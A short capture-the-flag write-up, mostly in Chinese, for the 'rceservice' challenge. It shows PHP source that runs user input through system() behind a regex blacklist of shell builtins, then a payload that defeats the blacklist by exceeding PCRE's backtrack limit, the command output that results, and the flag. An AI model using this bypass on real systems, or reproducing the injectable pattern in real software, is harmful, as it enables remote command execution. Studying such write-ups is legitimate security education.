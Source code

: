 # rceservice

```php
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

這題題目很短，用`preg_match`擋了一堆東西

但我們知道PHP有pcre backtrace limit限制，當回溯超過1000000次時，會回傳false

在弱比較下等同匹配成功，就成功繞過惹

e.g.

`'{"cmd":"ls -al /","zz":"' + "a"*(1000000) + '"}'`

=>

```
drwxr-xr-x 1 root root       4096 May 26 21:20 ..
-r--r--r-- 1 root rceservice   43 May 23 03:58 flag
dr-xr-xr-x 1 root rceservice 4096 May 26 21:20 jail
```

Bypass successfully!


詳細 payload 見exp.py

flag: `fb{pr3g_M@tcH_m@K3s_m3_w@Nt_t0_cry!!1!!1!}`
